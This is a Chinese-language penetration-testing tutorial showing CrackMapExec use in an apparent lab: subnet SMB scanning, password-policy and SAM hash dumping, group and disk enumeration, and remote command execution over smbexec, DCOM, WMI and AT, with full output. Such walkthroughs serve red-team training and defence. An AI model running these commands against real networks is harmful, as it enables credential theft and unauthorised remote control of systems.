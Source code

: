**注：**请多喝点热水或者凉白开，可预防**肾结石，痛风**等。

CrackMapExec弥补了MSF4下auxiliary，scanner模块下的Command执行方式，但MSF5已解决该问题。在MSF4下，该框架针对后渗透的横向移动经常出现，虽然MSF5已解决该问题，但该框架在配合bloodhound与empire依然目前有一定优势。

安装方式：from Wiki：

### Kali：
```bash
apt‐get install crackmapexec
```

但作者推荐pipenv安装：
```bash
apt‐get install ‐y libssl‐dev libffi‐dev python‐dev build‐essential
pip install ‐‐user pipenv
git clone ‐‐recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec && pipenv install
pipenv shell
python setup.py install
```

### Mac OSX：
```bash
pip install ‐‐user crackmapexec
```

默认为100线程
```bash
cme smb 192.168.1.0/24
SMB 192.168.1.4 445 JOHN‐PC [*] Windows 7 Ultimate 7601 Service Pack 1
x64 (name:JOHN‐PC) (domain:JOHN‐PC) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
```
![](media/ebb1d4734cf101b0af75130b24dc2797.jpg)

密码策略
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐pass ‐pol
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping password info for domain: WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password length: None
SMB 192.168.1.119 445 WIN03X64 Password history length: None
SMB 192.168.1.119 445 WIN03X64 Maximum password age: 42 days 22 hours 47 minutes
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Password Complexity Flags: 000000
SMB 192.168.1.119 445 WIN03X64 Domain Refuse Password Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Store Cleartext: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Lockout Admins: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Clear Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Anon Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Complex: 0
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password age: None
SMB 192.168.1.119 445 WIN03X64 Reset Account Lockout Counter: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Locked Account Duration: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Account Lockout Threshold: None
SMB 192.168.1.119 445 WIN03X64 Forced Log off Time: Not Set 
```
![](media/6caecd2d3353752952b4fa71fb5cff9c.jpg)

list hash
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping SAM hashes
SMB 192.168.1.119 445 WIN03X64 Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
SMB 192.168.1.119 445 WIN03X64 Guest:501:aad3b435b51404eeaad3b435b51404ee:67f33d2095bda39fbf6b63fbadf2313a:::
SMB 192.168.1.119 445 WIN03X64 SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:f4d13c67c7608094c9b0e39147f07520:::
SMB 192.168.1.119 445 WIN03X64 IUSR_WIN03X64:1003:dbec20afefb6cc332311fb9822ba61ce:68c22a11c400d91fa4f66ff36b3c15dc:::
SMB 192.168.1.119 445 WIN03X64 IWAM_WIN03X64:1004:ff783381e4e022de176c59bf598409c7:7e456daac229ddceccf5f367aa69a487:::
SMB 192.168.1.119 445 WIN03X64 ASPNET:1008:cc26551b70faffc095feb73db16b65ff:fec6e9e4a08319a1f62cd30447247f88:::
SMB 192.168.1.119 445 WIN03X64 [+] Added 6 SAM hashes to the database
```
![](media/d372f49b841caef362dbced12e0a0149.jpg)

枚举组
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
SMB 192.168.1.119 445 WIN03X64 [\*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Enumerated local groups
SMB 192.168.1.119 445 WIN03X64 HelpServicesGroup membercount: 1
SMB 192.168.1.119 445 WIN03X64 IIS_WPG membercount: 4
SMB 192.168.1.119 445 WIN03X64 TelnetClients membercount: 0
SMB 192.168.1.119 445 WIN03X64 Administrators membercount: 1
SMB 192.168.1.119 445 WIN03X64 Backup Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Distributed COM Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Guests membercount: 2
SMB 192.168.1.119 445 WIN03X64 Network Configuration Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Performance Log Users membercount: 1
SMB 192.168.1.119 445 WIN03X64 Performance Monitor Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Power Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Print Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Remote Desktop Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Replicator membercount: 0
SMB 192.168.1.119 445 WIN03X64 Users membercount: 3
```
![](media/4136be4626226c3dc06862d42b2ede35.jpg)

分别支持4种执行Command，如无--exec-method执行，默认为wmiexec执行。  
* mmcexec   
* smbexec   
* wmiexec   
* atexec  

基于smbexec执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method smbexec ‐x 'net user'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via smbexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S \\ ���û��ʻ�
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S Administrator Guest
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ����������ϣ�������һ����������
```
![](media/751f7fd147dc4a1810d00aa1b5cde041.jpg)

基于dcom执行Command
```bash
root\@John:\~\# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method mmcexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via mmcexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/64443a4bd4d862023bcf82a0d8978c41.jpg)

基于wmi执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method wmiexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via wmiexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/f97bf667d2f2bd316cefcb12550a4845.jpg)

基于AT执行Command

目标机：无运行calc进程  
![](media/9dbb8af94a4ef3de96eb1476162a3a9d.jpg)

```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method atexec ‐x 'calc'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via atexec
```
![](media/7fdfdafcff3b66eebbcb49a359450a83.jpg)


默认采取wmiexec执行Command，参数为-x
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](media/49adc1d483d3df2a5c12b432c61dc00d.jpg)

枚举目标机disk
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Enumerated disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S C:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S D:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S E:
```

### 附录：
**解决出现：STATUS_PIPE_DISCONNECTED**  
![](media/a7a5a32340bdb7651266594f5dd0dbc7.jpg)

改成经典

![](media/cbc0c19d3ddbc53c165d217f51289e5c.jpg)

解决出现错误：UnicodeDecodeError:

升级impacket  

![](media/f2f8fc124237c8317e634b28c6ff4212.jpg)

>   Micropoor
